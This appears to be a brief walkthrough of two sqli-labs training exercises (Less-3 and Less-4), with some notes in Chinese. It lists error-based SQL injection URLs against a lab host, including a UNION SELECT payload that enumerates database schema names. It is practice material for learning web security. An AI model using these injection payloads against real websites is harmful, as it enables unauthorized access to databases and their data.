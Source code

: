 ### Less-3-GET - Error based - Single quotes with twist-string

`http://10.101.177.100:9990/Less-3/?id=1'`

![](assets/markdown-img-paste-20180417175459482.png)

`http://10.101.177.100:9990/Less-3/?id=1%27)--+`

![](assets/markdown-img-paste-20180417175811266.png)

后面步骤都是一样的  

### Less-4-GET - Error based - Double Quotes - String

`http://10.101.177.100:9990/Less-4/?id=1%22`  

`http://10.101.177.100:9990/Less-4/?id=1%22)--+`

`http://10.101.177.100:9990/Less-4/?id=-1%22) union select 1,2,group_concat(schema_name) from information_schema.schemata--+`

![](assets/markdown-img-paste-20180417180629581.png)
